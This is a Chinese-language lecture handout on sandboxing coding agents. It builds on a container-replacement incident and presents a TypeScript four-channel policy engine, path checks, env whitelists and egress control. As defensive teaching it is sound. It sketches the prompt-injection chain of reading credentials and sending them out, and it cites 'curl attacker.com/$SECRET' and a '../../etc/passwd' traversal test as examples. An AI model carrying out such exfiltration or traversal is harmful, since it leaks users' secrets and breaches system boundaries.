




# 沙箱与凭据(可信执行环境与可复现性)

> 开始：2026-10-11 · 状态：📖 讲义已展开、待提问演练
> 教学素材：FinHot 2026-10-09 18:00 幽灵事故（并行会话污染 env/DB → 18:25 重建 worker/api）
> 前置：Harness 架构 15 节 + 从零写 harness（harness-demo，含 policy.ts）+ RAG 与检索（rag-demo）
> 作品：`sandbox-demo/`（2026-10-11 已实现，src 600 行）——四通道 policy 引擎 + 幽灵事故重放（全离线确定性；A 组仅权限门 vs B 组四通道+沙箱；重放 3 次逐字节一致）

---

## 预备知识（这课的门槛，只讲「课程外」要会什么）

- **课程依赖（prereqs）**：`harness-from-scratch`——能跑通 `harness-demo`、理解最小 loop 与 policy 门「默认 deny」。
- **技能门槛**：会「进程 / 文件系统 / 容器隔离」的粗概念即可（一句话说得清「容器 = namespace + cgroup」就算过关）。
- **不需要提前会**：seccomp / Landlock / gVisor / bubblewrap、写沙箱配置——一律不用。四通道与三条边界（路径 / env / 网络）的机制，随 `sandbox-demo`（`npm run demo`）边跑边建。

---

## 开篇：为什么沙箱是 coding agent 的 P0

普通程序的动作来自代码，agent 的动作来自**概率模型**——模型提出"行动请求"，真正落地的是执行层。这中间有一道许多团队会忽略的缝：**请求合法 ≠ 影响可控**。

Harness 架构的第七节已经给了第一道门——权限（approval + scope）。但权限门回答的只是"**这个工具、这组参数，允不允许**"。它看不见执行时的**环境**：模型在哪个目录跑、容器里挂了什么、进程继承了谁的 env、出网有没有关。幽灵事故就是这条缝的教科书：`docker compose build+up` 是合法工具、命令完全合法，但它在**错误的目录树**里、用**错误的 compose 项目**、落在**没有命名空间隔离**的宿主上——于是生产容器被替换。

所以本课的第一命题从开篇就要立住：**权限门管意图，沙箱管执行环境；两者是两道独立的门，任何一层单独都不够。** 提示词（system prompt 里写"别动生产"）连第一道门都算不上，它是最不可靠的软约束，只能当第一道预警，不能当最后一道防线。

**本课的锚点清单**（`#NN` 为本库内部编号，读者可忽略）：

- FinHot 幽灵事故（2026-10-09，`#35`）：并行会话在旧 AINews 树 build+up，生产 worker/api 被幽灵代码替换 25 分钟。
- 并行会话互相污染（`#36`）：`/home/ubuntu/app` 下 `.agents/plans` 被并行会话事故删两次；4 个 docker 项目共享宿主。
- `.env` 凭据面（`#4`）：FinHot 根目录 `.env` 即生产配置（compose `env_file`），根目录可被并行会话碰到 = 凭据面过大。
- 模型静默下架（`#41`）：gpt-load 模型轮换把 `qwen3.8-flash` 直接下架——环境固定（S6）的反面教材。
- `sandbox-demo/`（2026-10-11，src 600 行）：本课作品，把事故变成可重放的确定性测试。
- ⚠️ **待回填（已核实：查无公开一手源，勿对外引用）**：本库另记有「Claude Code 供应链事故（2025-07）」「agent 无沙箱事故」「rig-skill」三条私有锚点。真正可查证的同类事件是：**2025-07 npm 供应链投毒**与 **2025-08 Nx 投毒**（攻击者滥用 Claude Code CLI 探测文件系统）——但这两件**都不是**「Claude Code 自身供应链被攻破」。

**FinHot 资产（本课相关，数值务必保留）**：backfill **1645 行**、~10% 失败（超时+订阅异常）、断点续跑到次日凌晨（`#35`）；labeler T+5 异步评测、状态机 `pending/labeled/skipped`、**858 条 skipped 带原因**；轨迹台账 **1830 行**（`#35` 生产快照、仓外数字、不可仓内复核）；幽灵事故恢复 **25 分钟、零数据丢失**（`#35`）。这些是 S5 审计与 S6 可复现性的现成"分母纪律"教材。

一句话把本课的目标钉住：**能让系统在"模型犯错/被注入"时仍然炸不出圈，并把事故变成可重放的测试。**

---

## S1 地基：权限层 ≠ 沙箱（两道独立的门）

**本课第一命题：Harness 架构 §7的"权限"管的是*意图*，沙箱管的是*执行环境*——任何一层单独都不够。**

```
模型决策 ──▶ [权限门 policy.ts] ──▶ [沙箱执行环境] ──▶ 真实世界
             确定性规则              OS/容器/VM 边界
             "这个工具/这个参数        "即使工具被合法调用，
              允许吗"                  影响也被关在边界内"
```

| 层 | 防什么 | 失效模式 |
|---|---|---|
| 权限门（从零写 harness §⑤） | 没被批准的动作 | 模型用**合法工具**做越界事（read 了敏感文件、write 到 scope 外的"合法路径"）；策略本身写错 |
| 沙箱 | 动作的**影响范围** | 边界配错（mount 错了目录、网络没关、env 泄漏） |
| 提示词 | 意图 | 注入/模型犯错——最不可靠，**只能当第一道，不能当最后道** |

### S1.1 三层边界模型（C/V/W）

把上面两道门再拆细，本课用一个三层模型来记：**C/V/W**（本课代号，对应 `sandbox-demo` 里三处不同的机制，不是外部标准）。

- **C = Control 控制层（意图门）**：`Policy.decide` 把每次调用判成 `allow / approve / deny / sandbox`。回答"**该不该做**"。
- **V = View 视图层（可见性门）**：`makeSandboxWorld` 给会话一个隔离开的 world view（自己的命名空间、只含 workspace 下的文件、容器为空）。回答"**能看见什么**"。
- **W = Write 写入层（影响门）**：`assertInWorkspace` 的路径边界 + `Sandbox.env` 白名单 + `openNetwork` 的 egress 关闭。回答"**能改到什么**"。



三层各失败一次，就是三种事故：C 失效 = 敏感动作被放行（策略写错/默认 allow）；V 失效 = 看得见不该看的（env/挂载泄漏）；W 失效 = 改得动不该改的（路径越界/出网）。

### S1.2 幽灵事故=活教材（FinHot 2026-10-09 18:00）

并行会话在错误目录（旧 AINews compose，build 指向幽灵树，无 editorial/ledger/labeler）跑 `docker compose build+up`，18:00:09 生产 worker/api 被换成幽灵代码。用 C/V/W 重述这次事故：

- 缺的不是"工具权限"（compose 是合法工具、命令是合法命令）——缺的是**执行环境边界**：哪个 compose 项目、哪个目录树、哪个命名空间。
- C 层没坏：每个动作都被允许；坏的是 V/W：会话看见的是错误的树，改到的是生产命名空间。
- 恢复代价：25 分钟（18:25 重建）+ 数据面检查。

长出的规则（已进 FinHot 运维守则）：**动生产容器前查容器创建时间**（比预期新=被换过）。注意这条规则的性质——它是**事后校验**，能发现不能阻止；沙箱化之后它才降级为双保险（见 S7）。

同一天的配套事实：`/home/ubuntu/app` 下并行会话互相污染（`.agents/plans` 被并行会话事故删两次——`#36`）→ **会话级工作区隔离**（git worktree）也是沙箱的推广形态：沙箱不只关"进程能碰什么"，也关"会话能碰什么"。

失败模式小结：**把"环境正确"当默认假设**。串行开发时 cwd/项目名/端口大概率是对的，一旦并行或换机器就全错。沙箱的第一价值不是防黑客，是让"环境对了"这件事不再靠约定。

**面试一句话**："权限层回答'能不能做'，沙箱回答'做了能炸多大'。幽灵事故里每个动作都'能'，炸了生产——所以我在动容器前加了一道执行环境检查。"

---

## S2 四通道 policy 引擎（已实现，见 `sandbox-demo/`）

按 package.json 的计划：**TS 迷你沙箱 = 四通道 policy 引擎 + 幽灵事故重放，全离线确定性**（不调模型——策略层是确定性代码，正好独立验证，呼应 从零写 harness §⑧ "mock 后每个控制层都能独立验证"）。

四通道（每个工具调用落到且仅落到一个通道）：

| 通道 | 语义 | 对应 从零写 harness §⑤ | 沙箱视角 |
|---|---|---|---|
| **allow** | 直接执行 | allow | 低风险面，边界内 |
| **approve** | 挂起等人工批准 | approve | human-in-the-loop |
| **deny** | 拒绝（结果回写） | deny | 高危面 |
| **sandbox** | 在隔离环境内执行（容器/受限目录/无网络） | 从零写 harness 没有的新通道 | 本课新增：动作合法但**需要关边界** |

**关键洞察：`sandbox` 不是第五个 `deny`。** `deny` 是"不做"，`sandbox` 是"照做但关进边界"：同一个 `docker compose up`，权限门完全允许，只是它只影响自己的命名空间。这个区别直接决定可观测性——`deny` 的执行结果是"没发生"，`sandbox` 的执行结果是"发生了，但在隔离世界里"，二者的审计与恢复语义不同（这也是 S2.5 要纠正的一处旧表述）。

`Policy.decide` 的匹配规则是**确定性、可离线**的：按冲突优先级 `deny → approve → sandbox → allow` 逐通道扫规则，命中即返回；没有规则则落到 `fallback = deny`（安全默认，沿用 从零写 harness §⑤）。

```ts
// src/policy.ts —— 四通道判定（确定性、可离线）
const CHANNEL_PRIORITY: readonly Channel[] = ["deny", "approve", "sandbox", "allow"];

decide(tool: string, args: Record<string, unknown>): Verdict {
  for (const ch of CHANNEL_PRIORITY) {            // ① 按冲突优先级扫「通道」
    for (const r of this.rules) {                 // ② 再扫该通道下的规则
      if (r.channel !== ch || !r.tools.includes(tool)) continue;
      if (r.when && !r.when(args)) continue;      // ③ 参数级匹配（.env / 跨树写在这里拦）
      return { channel: ch, ruleId: r.id, reason: `命中规则 ${r.id}` };
    }
  }
  return { channel: this.fallback, ruleId: null, reason: "无匹配规则，默认 deny" }; // ④ fallback=deny（安全默认）
}
```

**这段在讲什么**：四个通道不是四个等价的 if 分支，而是**按固定优先级逐通道扫**——`deny` 优先级最高，意味着「一条 deny 规则」永远盖过「一条 allow 规则」；`sandbox` 插在 `approve` 与 `allow` 之间（隔离更多者优先）。`when(args)` 是参数级匹配，正是它把 `read_file(…/.env)`、`write_file(work/ainews-new/…)` 这些「凭据/跨树」危险参数拦下来（见 S4/S8 的凭据面）。末行 `fallback=deny` 是安全默认：没写规则的工具一律不放行。



**ghost replay**：把幽灵事故重建成**可重放的剧本**（固定事件序列：错误目录 compose → build → up → 生产容器被换），policy 引擎逐条判定，输出"哪一步该被 sandbox 通道关进隔离环境"——**用确定性问题证明沙箱层的位置**。

验收标准（S6）：同一剧本跑 N 次输出逐字节相同（确定性=可复现）。

（实证见 S2.5。）

---

## S2.5 实证：`sandbox-demo` 到底做了什么、怎么验收、怎么复现

这一节把 S2 的"计划"落到**代码事实**上——所有描述都以 `sandbox-demo/src/` 为准（2026-10-11 核对）。

### 做了什么（文件 / 函数 / 机制）

| 层 | 文件 | 关键函数 / 机制 |
|---|---|---|
| 类型契约 | `src/types.ts` | `Channel`（四通道）、`CHANNEL_PRIORITY`（`deny → approve → sandbox → allow`）、`Verdict`、`ToolError`、`BoundaryViolation(kind: path/env/network)`、`SandboxConfig` |
| 意图门 C | `src/policy.ts` | `Policy.decide`（逐通道匹配，fallback `deny`）、`makeApprover`（离线审批表）、`Approval` |
| 视图门 V / 写入门 W | `src/sandbox.ts` | `makeHostWorld`（生产基线：finfo-worker/api 构建自 `work/ainews-new` + 幽灵树）、`makeSandboxWorld`（只含 workspace 的隔离 world view，容器为空）、`assertInWorkspace`（规范化逻辑路径）、`Sandbox.path/env/openNetwork` |
| 工具执行器 | `src/tools.ts` | 8 个确定性 mock 工具：`read_file / write_file / print_env / net_fetch / run_shell / docker_compose_build / docker_compose_up / check_container`；`targetWorld`/`pth` 决定是否有沙箱边界 |
| 剧本与策略 | `src/scenario.ts` | `GHOST_SCRIPT`（g1–g4）、`GATE_ONLY_RULES`（A 组仅权限门）、`POLICY_4CH_RULES`（B 组四通道）、`APPROVAL_TABLE`、`HOST_ENV`、`SESSION_WORKSPACE`、`ENV_WHITELIST` |
| 重放引擎 | `src/replay.ts` | `runScript`（逐条判定+执行→转录 `StepTrace[]`）、`assertDeterministic`（golden diff + sha256）、逻辑时钟用步序号而非 `Date.now()` |
| 入口 | `src/demo.ts` | ① 判定流 ② 三条边界 ③ 幽灵重放 A/B 4 确定性验收（`times=3`） |

### 验收标准（可自动断言）

1. 判定流 9 步（f1–f9）全部按预期落通道，且四通道 + fallback 全覆盖。
2. 三条边界全部生效：路径越界 `blocked`、env 白名单隐藏敏感变量、出网 `blocked`。
3. A 组（仅权限门）**复现事故**：step 3 后 `check_container` 报"被替换"。
4. B 组（四通道 + 沙箱）**生产未被触碰**：`check_container` 报"正常"，构建来源仍是 `work/ainews-new`。
5. A/B 两组各跑 3 次，转录逐字节相同（`✅ 重放一致性断言通过`）。

### 复现命令（2026-10-11 本机实测）

```bash
cd sandbox-demo
npm i                 # 本机 NODE_ENV=production 会跳过 devDeps，故 tsx/typescript 放在 dependencies
npm run demo          # ① 判定流 ② 边界 ③ 幽灵重放 A/B 4 确定性验收
npm run typecheck     # tsc --noEmit（实测 exit 0）
```

- 环境要求：**Node ≥ 18**（本机默认 `/usr/bin/node` 是 v12，tsx 会报 `SyntaxError: Unexpected token '.'`；用 `~/.nvm/versions/node/v22.23.2/bin/node` 实测通过）。仓库 README 已写明"作品要求 node ≥ 18"。
- 实测 sha256（本机、Node v22.23.2、2026-10-11）：
  - A（仅权限门）`ecbabb3a901ff81aab6404c800eb49d3ef6e3722dce9db98507e9adda1777aca`
  - B（四通道+沙箱）`9c0d52aa6d5812440b8c0045d97ae793351d34a1c5207ecc486a1130b614246c`
  - 说明：hash 是转录内容的 sha256，随 demo 版本变化；这是"逐字节可复现"的机器可验证锚点。

### 代码核对结论：旧描述需要修正的地方

1. **旧 S2 写的"幽灵事故 step 3 被沙箱通道拦截"不精确。** 实际行为：`docker_compose_build`（step 2，g2）和 `docker_compose_up`（step 3，g3）**都**命中 `s-sandbox-compose` 规则、都进入 **sandbox 通道**，并且**在隔离命名空间内执行成功（status = ok）**——不是 `blocked`。之所以生产安全，是因为 `makeSandboxWorld` 造的隔离 world view **看不到生产容器**（其 `containers` 为空），up 只能创建 `finfo-worker`/`finfo-api` 在 `ns=sandbox` 里。真正 `blocked` 的是**边界违规**（`read_file ../../etc/passwd` 路径越界、`net_fetch` 出网被 `openNetwork` 拦）。
   - 正确表述：**"step 3 的 `docker_compose_up` 动作合法、被允许，但被 sandbox 通道关进隔离命名空间——生产容器不在该命名空间里，因此未被触碰。"** "拦截"这个词留给 `blocked`（边界违规）和 `denied`（策略拒绝）。
2. **旧 S2 的"四通道判定 + 幽灵事故 step 3 被沙箱通道拦截 + 3 次重放逐字节一致"同问题**，按上条改写即可（"进入 sandbox 通道隔离执行"）。
3. `src` **600 行**属实（`wc -l src/*.ts` = 600）。
4. "四通道每个调用落到且仅落到一个通道"属实（`decide` 只返回一个 `Verdict`）。
5. "approve 离线 = 预置审批表 `makeApprover` + `APPROVAL_TABLE`"属实。
6. "验收 = 同一剧本跑 N 次逐字节相同"属实（`assertDeterministic(times=3)`，golden diff + sha256）。

**一句话结论**：demo 的实现与课程描述**机制一致、用词需修正一处**——`sandbox` = 隔离执行（不是拒绝/拦截），这正是本课最容易被误读、也最该讲清的一点。

---

## S3 隔离技术谱系：强度、延迟、成本的三角

从弱到强（每档都是上一档"还不够"长出来的）：

| 档位 | 机制 | 隔离强度 | 启动延迟 | 典型场景 |
|---|---|---|---|---|
| **进程级** | macOS Seatbelt / Linux bubblewrap（bwrap）+ seccomp：限制文件/网络/系统调用 | 中（同内核，依赖配置正确） | 毫秒 | **Codex CLI 本地沙箱**（官方做法：macOS Seatbelt；Linux/WSL2 需装 bubblewrap，文件系统限制由 bwrap 施加、seccomp 管系统调用；Landlock 为 legacy） |
| **容器** | Docker：namespace（pid/net/mount/uts）+ cgroup（资源）；共享宿主内核 | 中（内核攻击面共享；逃逸历史存在） | 百毫秒~秒 | 开发机、CI、agent 池（腾讯云 AgentRuntime 类） |
| **用户态内核/microVM** | gVisor（用户态实现 Linux 系统调用面，挡内核攻击面）；Firecracker（KVM microVM，官方 ~125ms 启动） | 高（强边界） | 百毫秒级（Firecracker）~秒 | **E2B**（Firecracker microVM、快照恢复式启动，官方口径"接近容器速度"，未公开固定毫秒/内存基线）；多租户生产 |
| **WASM** | 线性内存沙箱 | 高（无系统调用面） | 毫秒 | 插件/前端侧（agent 场景少） |

### 选型决策句（面试用）

- **单用户本地**：进程级足够（Codex CLI 的选择——快+够用），关键在**默认边界**（网络默认关、文件系统白名单）。
- **多租户/不可信代码**：microVM（内核隔离不可协商）。容器共享内核 = 逃逸面共享。
- **成本约束**：沙箱池+复用（预热容器池），避免每任务冷启动。
- **网络是最难关的一档**：文件边界容易，egress 控制（默认 deny 出网+白名单域名）是沙箱配置里最容易漏的——**注入的典型 payoff 就是 `curl attacker.com/$SECRET`**。

FinHot 映射：那台机器上"4 个 docker 项目共享宿主"就是**没有沙箱**——compose 项目之间没有执行边界，并行会话=多租户，幽灵事故是必然不是意外。

### S3 的失败模式（选型层）

- **容器当 microVM 用**：多租户下把容器当强边界，等于把内核漏洞当业务风险。
- **进程级没配默认关**：Seatbelt/Landlock 给了能力，但 profile 若默认放行出网/放行 `~`，等于没沙箱——**沙箱的强度 = 最弱的那条默认策略**。
- **只隔离文件、忘了网络/env**：S1 的"边界配错"三连（mount/网络/env），任何一条漏了，整层失效。
- **冷启动当免费**：多租户按任务起 microVM，若不池化，延迟和成本会逼团队偷偷复用——复用又回到"共享边界"。

---

## S3.5 Kernel 四层校验：路径 canonicalize → 许可 → lockdown → 审计

沙箱不是一道开关，而是一条**校验流水线**。把 `sandbox-demo` 的执行路径拆开，正好是四层（本课归纳，术语借自通用的"check → authorize → confine → audit"安全流水线）：



四层各自的失败模式（面试常追问"你最担心哪层"）：

1. **canonicalize 失败**：路径校验被绕过——`..` 编码、符号链接、Unicode 归一化、Windows 短名 / 8.3 名。demo 里 `assertInWorkspace` 是纯字符串逻辑（教学用），真实系统要靠 `realpath`/`openat` 在内核侧判定，并防 TOCTOU（见 S8）。

```ts
// src/sandbox.ts —— L1 路径 canonicalize（教学版：纯字符串；真实系统换 realpath/openat）
export function assertInWorkspace(workspace: string, raw: string): string {
  if (raw === "" || raw.startsWith("/") || raw.includes("\0"))
    throw new BoundaryViolation("path", `非法路径（空或绝对路径）: ${raw}`);
  const segs: string[] = [];
  for (const seg of raw.split("/")) {
    if (seg === "" || seg === ".") continue;         // 跳过空段与「.」
    if (seg === "..") {
      if (segs.length === 0) throw new BoundaryViolation("path", `路径越出根: ${raw}`);
      segs.pop();                                    // 「..」越根即拒，否则回退一级
    } else segs.push(seg);
  }
  const resolved = segs.join("/");
  if (resolved !== workspace && !resolved.startsWith(workspace + "/"))
    throw new BoundaryViolation("path", `路径越出 workspace: ${raw}`);
  return resolved;   // 用「解析后的绝对逻辑路径」，不依赖进程 cwd（S8.1）
}
```

**这段在讲什么**：canonicalize 的本质是「把相对路径解析成不依赖 cwd 的逻辑路径，并证明它落在 workspace 内」。三处 `throw` 对应三种越界——绝对路径/空/NUL 直接拒、`..` 爬出根拒、解析结果不在 workspace 下拒。demo 只用字符串逻辑（教学简化），真实系统必须在**内核侧**用 `realpath`/`openat` 解析，否则 `..` 编码 / 符号链接都能绕过（S8.2 TOCTOU）。
2. **许可失败**：默认 allow、规则写反、参数级匹配漏了（demo 里用参数级 `when` 才把 `.env` 和跨树写拦下）。**安全默认必须是 deny。**
3. **lockdown 失败**：声明了沙箱但没真正生效——进程仍继承宿主 env、网络没关、命名空间没建、以 root 跑。demo 用 `openNetwork` 断言 + env 白名单 + 隔离 world view 把这条"变成代码"。
4. **审计失败**：拦了但没留痕，事后无法取证、无法做漂移检测、无法重放（S5/S6）。demo 用 `World.log` + 每条 policy 判定进转录。

**顺序有意义**：先规范化再授权（否则授权的是"看起来安全"的路径），授权后再 lockdown（否则关不住），最后一律审计（含被拒/被拦的）。任何一层"静默失败"（不报错地放行）都是最危险的——所以 demo 里拒绝/拦截**一律回写模型**。

---

## S4 凭据与密钥：agent 系统里最贵的一把钥匙

**命题：agent 环境里的凭据 = 注入攻击的默认 payoff。凭据设计=安全设计的 80%。**

### S4.1 注入经济学

提示注入成功后的标准动作链=读环境/文件找凭据 → 外发（curl/webhook）→ 用凭据干更贵的事。所以：

- **最小凭据**：agent 环境只放它这轮任务需要的；能用 scoped token（只读、单 repo、15 分钟过期）就不用全局 token。
- **零常驻凭据（zero standing privileges）**：凭据按需注入、任务结束回收；vault/短期 token > 长期 API key。
- **网络 egress 默认关**：即使凭据被读走，没有出网通道就发不出去（S3 的 egress 在这里闭环）。

### S4.2 env 泄漏面（demo 里有直接证据）

env 是 agent 最容易"看见"的凭据形态（`read /proc/self/environ`、`printenv` 都是合法工具调用）→ 敏感凭据不进 agent 可见的 env，走**代执行**（harness 持凭据代模型发请求，模型只见请求、不见 token）。

`sandbox-demo` 的 `[II-2]` 实测输出把两种状态摆在了一起：

- **无沙箱层**：`可见 env: HOME, PATH, LLM_API_KEY, FEISHU_WEBHOOK（无边界：整个 env 可见，含凭据!）`
- **有沙箱层**：`可见 env: HOME=/home/ubuntu, PATH=/usr/bin；2 个敏感变量未注入可见 env（S4）: LLM_API_KEY, FEISHU_WEBHOOK`

这就是"凭据面"的可见化：没有 env 白名单时，`print_env` 一个合法调用就把 `HOST_ENV`（含 `LLM_API_KEY`、`FEISHU_WEBHOOK`）全暴露。

### S4.3 审计

所有凭据使用留痕（谁、哪轮任务、哪个 tool call）；异常外发=最高级告警。

### S4.4 FinHot 映射

FinHot 根目录 `.env` 就是生产配置（compose `env_file`）——**根目录可被并行会话碰到 = 凭据面过大**；飞书 webhook 注释掉后"断流静默"也说明凭据/配置管理没有台账意识（`#4` 记忆）。

### S4 的失败模式

- **凭据进 env 就算"没暴露"**：env 是 agent 的第一可见面。
- **把凭据"临时挂载"当安全**：挂 `~/.ssh` / `~/.aws` / `.netrc` 进沙箱，等于把 S4 的掏空（见 S8 凭据挂载）。
- **有 egress 白名单但白名单太宽**：`*.github.com` 里嵌入 `gist`/`raw` 也能外发。

---

## S5 行为漂移与审计：沙箱是边界，审计是边界上的摄像头

- **工具调用日志=审计底账**：从零写 harness §⑥ 的 JSONL（`intent` 全量 / `exec` 结果截断 2000 字符，见下）不只是恢复用——它就是审计证据（谁在什么时候调了什么、参数是什么、结果是什么）。
- **漂移检测**（长期运行的 agent 会"学坏"或被慢慢注入）：
  - 模式异常：同一工具参数分布突变（突然大量 read 同一目录、突然 curl 新域名）。
  - 路径异常：越出常规工作目录的访问序列。
  - 时间异常：深夜批量外发。
- **拦截 vs 告警**：高危（外发凭据特征、`rm -rf` 模式、scope 外写）= 硬拦截（policy 层，确定性）；可疑=告警+人工复核。
- **FinHot 运维规则升级**："动生产容器前查容器创建时间"= 一条**事后校验**规则；沙箱化之后它变成**事前边界**（构建产物只能进指定命名空间），规则降级为双保险。

### S5.1 与 `harness-demo` 的轨迹/OTel 埋点核对（2026-10-11）

- `harness-demo` 的 JSONL 事件类型：`init / model_response / tool_intent / tool_exec / compaction / final`，另有 demo 注入用的 `crash`——与 `notes/harness-from-scratch.md` ⑥ 列出的类型一致（多一个 demo-only 事件）。
- OTel 埋点（`src/otel.ts` + `src/agent.ts`）：`invoke_agent` 为根 span，下挂 `chat`（每次 LLM 调用）与 `execute_tool`（每次工具调用）；属性用 `gen_ai.*` 族（`gen_ai.operation.name / gen_ai.system / gen_ai.request.model / gen_ai.usage.* / gen_ai.tool.name` 等）与 `harness.tool.status`——与 `notes/observability.md` S2/S3 的描述方向一致。
- **需要指出的一处不一致（不改别的文件，仅记录）**：`sandbox.md` 旧文写"从零写 harness §⑥ 的 JSONL（intent/exec 全量）"，但 `harness-demo/src/agent.ts` 写 `tool_exec` 时执行了 `result.slice(0, 2000)`，OTel 的 `gen_ai.tool.call.arguments` 与 `gen_ai.tool.call.result` 也各 `slice(0, 500)`。所以严格说是 **intent 全量、exec/结果截断**。审计/回放要全量时，应调整截断阈值或把大 payload 落对象存储（这也呼应 `observability.md` S3 的"LLM span 记全 prompt 与响应"——实际 demo 的 `chat` span 并未记录 prompt/应答正文，只记了 model/usage/finish）。

### S5 的失败模式

- **只在"成功"时留痕**：拒绝/拦截不留痕，就没法统计"攻击尝试"，也没法证明防线在工作。
- **日志脱敏与可重放冲突**：要么脱敏丢掉关键字段、要么明文存下密钥——需要"两档/指针化"设计（S8 面试追问）。
- **规则只做告警不做拦截**：高危动作必须有确定性硬拦截，告警是给"可疑"的。

---

## S6 可复现性：agent 系统的"单元测试基础设施"

**命题：agent 的输出非确定，但*系统行为*必须可复现——否则评测（评测工程化）和事故取证都无从谈起。**

三个层面：

1. **确定性重放**：同一轨迹 + 同一模型 + temperature=0（或固定 seed）→ 输出应逐字节一致；不一致=有隐藏非确定源（时间戳、随机数、外部状态泄漏进提示词）。
2. **环境固定**：镜像 pin、依赖 lock（sandbox-demo 的 `package-lock.json` 就是这个意思）、模型版本号 pin（模型会静默升级——gpt-load 模型轮换 `#41` 就是活例子：`qwen3.8-flash` 直接下架）。
3. **事故重放**：幽灵事故剧本（S2）= 可复现的故障注入测试；**能重放事故的系统才能证明自己防得住**。

验收指标：`run N 次 → diff 全空`；评测集结果跨天可复现（评测工程化 CI 门禁的前提）。`sandbox-demo` 的具体验收见 S2.5（A/B 各 3 次、sha256 golden diff）。

```ts
// src/replay.ts —— S6 可复现：同一剧本跑 N 次，逐字节 diff 全空
export function assertDeterministic(label, runOnce, times = 3) {
  const golden = runOnce();                 // 第 1 次 = golden（基线）
  const hash = sha256(golden);
  let ok = true;
  for (let i = 2; i <= times; i++) {
    const t = runOnce();
    // 与 golden 逐字节比对；不一致 → 打印首处 diff 行，ok=false
  }
  return { ok, hash, lines };               // sandbox-demo 末尾断言打印 `✅ 重放一致性断言通过`
}
```

